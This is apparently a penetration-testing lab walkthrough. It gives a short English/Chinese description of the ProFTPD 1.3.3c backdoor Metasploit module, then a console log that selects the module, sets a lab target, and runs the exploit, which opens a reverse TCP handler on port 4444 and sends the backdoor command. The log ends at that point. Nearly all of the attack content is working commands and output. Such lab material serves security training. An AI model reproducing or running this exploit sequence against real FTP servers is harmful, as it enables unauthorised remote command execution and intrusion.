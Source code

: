 [ProFTPD-1.3.3c Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor/)

```
ProFTPD-1.3.3c Backdoor Command Execution

ProFTPD-1.3.3c 后门命令执行

This module exploits a malicious backdoor that was added to the ProFTPD download archive. This backdoor was present in the proftpd-1.3.3c.tar.[bz2|gz] archive between November 28th 2010 and 2nd December 2010.

此模块利用添加到 ProFTPD 下载存档的恶意后门。这个后门存在于proftpd-1.3.3c.tar中。[bz2|gz] 存档于 2010 年 11 月 28 日至 2010 年 12 月 2 日之间。
```

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > setg RHOSTS 192.123.71.3
RHOSTS => 192.123.71.3
msf5 > search ProFTPD 1.3.3c

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   3  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   4  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   5  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


msf5 > use 4
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.123.71.3     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.123.71.2:4444 
[*] 192.123.71.3:21 - Sending Backdoor Command
```